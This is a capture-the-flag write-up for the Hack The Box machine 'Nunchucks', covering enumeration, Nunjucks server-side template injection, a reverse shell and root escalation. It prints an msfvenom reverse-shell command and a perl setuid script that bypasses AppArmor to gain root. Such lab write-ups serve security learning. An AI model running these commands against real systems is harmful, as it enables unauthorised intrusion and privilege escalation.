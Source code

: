 # Nunchucks Writeup

objetives :
* user flag
* root flag

---

## User.txt

### Basic Enumeration

the ICMP TTL indicates that it's a Linux Machine  

nmap :
* p22	OpenSSH 8.2p1
* p80	nginx 1.18.0 (Ubuntu)
* p443	nginx 1.18.0 (Ubuntu)

the port 80 server is just a redirection to port 443 server

### Web

having a quick look at the page it seems like there is a signup and login page but neither of them are working  
we try directory enumeration, its a little tricky cause every request gives a 200 status, so we have to filter by size  
we don't find any interesting directory  
by the way, while doing all of this we see that the page is using **Node.js**

there is a mail on the main page whit the domain *nunchucks.htb*  
that makes me think that there might be a hidden subdomain  
we use **ffuf** for subdomain enumeration and we find *store.nunchucks.htb*  

### Store

the first thing we see is an textbox asking for an email  
that sends the email to */api/submit*, and we get a response where the email of your input is sent back to you

i get to a point where i can't find anything and i check HTB to see the tags of the machine  
we see the tag **SSTI**, that stands for Server Side Template Injection  
i didn't even know about this vulnerability, so i search for it and i try various payloads  
looks like sending *{{7\*3}}* to */api/submit* works because it responds you with 21  

### Exploiting SSTI 

we try to know which template Node is using by trying payloads on this [link](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)  
we come to the conclusion that its using **NUNJUCKS**

after a lot of tries, i find a payload that actually works :  
![](./contents/screenshots/screenshot1.png)  

the reason why i needed a lot of tries is because the payload i found had single quotes instead of backslash + double quotes  
that is, `'child_process'` insted of `\"child_process\"`

### Upgrading RCE to a Reverse Shell

the most common reverse shell payloads are not working for me, so i though about creating a reverse shell executable with **msfvenom**  
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o shell.elf`  
now i create a server on my machine with Python and use the **SSTI** and the **curl** command to upload it to the target machine  
i give execution permisions to the file with **chmod** and then set a **netcat listener**  
now i execute the file... it works !!! we have a Reverse Shell and user.txt

---

## Root.txt

we search binaries capabilities and we find that **perl** has the following capabilitie : *cap_setuid+ep*  
there is an entry in GTFOBins to exploit this, the payload is 
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
it doesn't work, but it works with *whoami* instead of */bin/sh*... what is happening ?  

this kind of behaviour in a program reminds me of the security module **AppArmor**  
so we find files containing the word *AppArmor*  
there are plenty of them !! we find an interesting folder at */etc/apparmor.d* whit a file called *usr.bin.perl*  
it seems that is denying us the acces to */root*  
is there any way to bypass that ? time to ask Google !!  

there is a pretty interesting bug about this topic on [this link](https://bugs.launchpad.net/apparmor/+bug/1911431)  
it says that you can bypass it with a script starting with a **shebang line** (#!/usr/bin/perl)  
lets try it !! we write this script called *shell.perl*
```perl
#!/usr/bin/perl

use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash";
```
we give execution permission to it, we execute it with ```./shell.perl``` and voilá !!! there you go  
enjoy your root acces !

